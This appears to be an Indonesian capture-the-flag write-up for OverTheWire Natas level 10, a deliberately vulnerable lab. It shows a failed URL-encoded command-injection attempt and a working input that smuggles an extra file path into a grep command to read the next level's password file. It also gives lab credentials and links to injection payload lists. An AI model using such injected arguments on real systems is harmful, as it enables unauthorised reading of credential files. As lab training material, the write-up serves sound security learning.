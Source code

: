 ```yaml
---
layout: level
level: 10
previous: ./level 09.html
next: ./level 11.html
---
```


# soal
Username: natas10 \
URL:      http://natas10.natas.labs.overthewire.org

# solve
- use cred natas10:t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
- setelah saya login terdapat sebuah form input seperti sesbelumnya hanya saja sepertinya terdapat keamanan yang lebih baik
  ![alt text](docs/images/image-17.png)
  - terdapat pengecualian pada teks seperti "/[;|&]/"
  - disini saya mencoba untuk melakukan bypass sperti menggunakan url encode namun masih belum berhasil
  ```
  %3Bwhoami%3B
  ```
  - https://github.com/payloadbox/command-injection-payload-list
  - https://owasp.org/www-community/attacks/Command_Injection
  - https://book.hacktricks.xyz/pentesting-web/command-injection
- lalu saya terpikir sesuatu untuk mencoba grep file /etc/natas_pass saja
  ![alt text](docs/images/image-18.png)
  ```
  a /etc/natas_webpass/natas11
  ```
- dan akhirnya saya berhaasil mendapatkan flagnya
  ```
  /etc/natas_webpass/natas11:UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk
  ```

# flag
UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk